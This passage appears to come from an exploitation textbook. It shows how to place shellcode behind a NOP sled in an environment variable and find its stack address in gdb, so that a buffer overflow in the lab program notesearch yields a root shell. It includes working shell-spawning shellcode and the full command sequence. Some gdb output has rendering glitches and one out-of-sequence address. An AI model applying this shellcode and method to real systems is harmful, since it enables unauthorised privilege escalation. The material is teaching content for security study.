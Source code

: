 # *__Using the Environment__*

Sometimes a buffer will be too small to hold even _shellcode_. Fortunately, there are other locations in memory where shellcode can be stashed. Environment variables are used by the user shell for a variety of things, but what they are used for isn’t as important as the fact they are located on the stack and can be set from the shell. The example below sets an environment variable called __MYVAR__ to the string _test_. This environment variable can be accessed by prepending a dollar sign to its name. In addition, the `env` command will show all the environment variables. Notice there are several default environment variables already set.

<pre style="color: white;">
reader@hacking:~/booksrc $ export MYVAR=test
reader@hacking:~/booksrc $ echo $MYVAR
test
reader@hacking:~/booksrc $ env
SSH_AGENT_PID=7531
SHELL=/bin/bash
DESKTOP_STARTUP_ID=
TERM=xterm
GTK_RC_FILES=/etc/gtk/gtkrc:/home/reader/.gtkrc-1.2-gnome2
WINDOWID=39845969
OLDPWD=/home/reader
USER=reader
LS_COLORS=no=00:fi=00:di=01;34:ln=01;36:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=4
0;31;01:su=37;41:sg=30;43:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;
31:*.taz=01;31:*.lzh=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.gz=01;31:*.bz2=01;31:*.deb=01;31:*
.rpm=01;31:*.jar=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35
:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.mov=01;
35:*.mpg=01;35:*.mpeg=01;35:*.avi=01;35:*.fli=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;
35:*.flac=01;35:*.mp3=01;35:*.mpc=01;35:*.ogg=01;35:*.wav=01;35:
SSH_AUTH_SOCK=/tmp/ssh-EpSEbS7489/agent.7489
GNOME_KEYRING_SOCKET=/tmp/keyring-AyzuEi/socket
SESSION_MANAGER=local/hacking:/tmp/.ICE-unix/7489
USERNAME=reader
DESKTOP_SESSION=default.desktop
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
GDM_XSERVER_LOCATION=local
PWD=/home/reader/booksrc
LANG=en_US.UTF-8
GDMSESSION=default.desktop
HISTCONTROL=ignoreboth
HOME=/home/reader
SHLVL=1
GNOME_DESKTOP_SESSION_ID=Default
LOGNAME=reader
DBUS_SESSION_BUS_ADDRESS=unix:abstract=/tmp/dbus-
DxW6W1OH1O,guid=4f4e0e9cc6f68009a059740046e28e35
LESSOPEN=| /usr/bin/lesspipe %s
DISPLAY=:0.0
<strong><em>MYVAR=test</em></strong>
LESSCLOSE=/usr/bin/lesspipe %s %s
RUNNING_UNDER_GDM=yes
COLORTERM=gnome-terminal
XAUTHORITY=/home/reader/.Xauthority
_=/usr/bin/env
reader@hacking:~/booksrc $
</pre>

Similarly, the shellcode can be put in an environment variable, but first it needs to be in a form we can easily manipulate. The shellcode from the notesearch exploit can be used; we just need to put it into a file in binary form. The standard shell tools of `head`, `grep`, and `cut` can be used to isolate just the hex-expanded bytes of the shellcode.

<pre style="color: white;">
reader@hacking:~/booksrc $ head exploit_notesearch.c
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;
char shellcode[]=
"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68"
"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89"
"\xe1\xcd\x80";

int main(int argc, char *argv[]) {
unsigned int i, *ptr, ret, offset=270;
reader@hacking:~/booksrc $ head exploit_notesearch.c | grep "^\""
"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68"
"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89"
"\xe1\xcd\x80";
reader@hacking:~/booksrc $ head exploit_notesearch.c | grep "^\"" | cut -d\" -f2
\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68
\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89
\xe1\xcd\x80
reader@hacking:~/booksrc $
</pre>

The first _10_ lines of the program are piped into `grep`, which only shows the lines that begin with a quotation mark. This isolates the lines containing the shellcode, which are then piped into `cut` using options to display only the bytes between two quotation marks.

BASH’s for loop can actually be used to send each of these lines to an `echo` command, with command-line options to recognize hex expansion and to suppress adding a newline character to the end.

<pre style="color: white;">
reader@hacking:~/booksrc $ for i in $(head exploit_notesearch.c | grep "^\"" | cut -d\" -f2)
> do
> echo -en $i
> done > shellcode.bin
reader@hacking:~/booksrc $ hexdump -C shellcode.bin
00000000 31 c0 31 db 31 c9 99 b0 a4 cd 80 6a 0b 58 51 68 |1.1.1......j.XQh|
00000010 2f 2f 73 68 68 2f 62 69 6e 89 e3 51 89 e2 53 89 |//shh/bin..Q..S.|
00000020 e1 cd 80                                        |...|
00000023
reader@hacking:~/booksrc $
</pre>

Now we have the shellcode in a file called shellcode.bin. This can be used with command substitution to put shellcode into an environment variable, along with a generous _NOP  sled_.

<pre style="color: white;">
reader@hacking:~/booksrc $ export SHELLCODE=$(perl -e 'print "\x90"x200')$(cat shellcode.bin)
reader@hacking:~/booksrc $ echo $SHELLCODE
􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀
􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀
􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀􀀀1􀀀1􀀀1􀀀􀀀􀀀 j
XQh//shh/bin􀀀􀀀Q􀀀􀀀S􀀀􀀀
reader@hacking:~/booksrc $
</pre>

And just like that, the shellcode is now on the stack in an environment variable, along with a _200-byte NOP sled_. This means we just need to find an address somewhere in that range of the sled to overwrite the saved return address with. The environment variables are located near the bottom of the stack, so this is where we should look when running  notesearch in a debugger.

<pre style="color: white;">
reader@hacking:~/booksrc $ gdb -q ./notesearch
Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".
(gdb) break main
Breakpoint 1 at 0x804873c
(gdb) run
Starting program: /home/reader/booksrc/notesearch

Breakpoint 1, 0x0804873c in main ()
(gdb)
</pre>

A breakpoint is set at the beginning of _main()_, and the program is run. This will set up memory for the program, but it will stop before anything happens. Now we can examine memory down near the bottom of the stack.

<pre style="color: white;">
(gdb) i r esp
esp 0xbffff660 0xbffff660
(gdb) x/24s $esp + 0x240
0xbffff8a0: ""
0xbffff8a1: ""
0xbffff8a2: ""
0xbffff8a3: ""
0xbffff8a4: ""
0xbffff8a5: ""
0xbffff8a6: ""
0xbffff8a7: ""
0xbffff8a8: ""
0xbffff8a9: ""
0xbffff8aa: ""
0xbffff8ab: "i686"
0xbffff8b0: "/home/reader/booksrc/notesearch"
0xbffff8d0: "SSH_AGENT_PID=7531"
<strong><em>0xbffffd56: "SHELLCODE=", '\220' &lt;repeats 190 times&gt;...</em></strong>
0xbffff9ab: "\220\220\220\220\220\220\220\220\220\2201ï¿½1ï¿½1ï¿½\231ï¿½ï¿½ï¿½\200j\vXQh//
shh/bin\211ï¿½Q\211ï¿½S\211ï¿½ï¿½\200"
0xbffff9d9: "TERM=xterm"
0xbffff9e4: "DESKTOP_STARTUP_ID="
0xbffff9f8: "SHELL=/bin/bash"
0xbffffa08: "GTK_RC_FILES=/etc/gtk/gtkrc:/home/reader/.gtkrc-1.2-gnome2"
0xbffffa43: "WINDOWID=39845969"
0xbffffa55: "USER=reader"
0xbffffa61:
"LS_COLORS=no=00:fi=00:di=01;34:ln=01;36:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=
40;31;01:su=37;41:sg=30;43:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01
;31:*.taz=0"...
0xbffffb29:
"1;31:*.lzh=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.gz=01;31:*.bz2=01;31:*.deb=01;31:*.rpm=01;3
1:*.jar=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01
;35:*.tga=0"...
(gdb) x/s 0xbffff8e3
0xbffff8e3: "SHELLCODE=", '\220' &lt;repeats 190 times&gt;...
(gdb) x/s 0xbffff8e3 + 100
0xbffff947: '\220' &lt;repeats 110 times&gt;, "1ï¿½1ï¿½1ï¿½\231ï¿½ï¿½ï¿½\200j\vXQh//shh/bin\
211ï¿½Q\211ï¿½S\211ï¿½ï¿½\200"
(gdb)
</pre>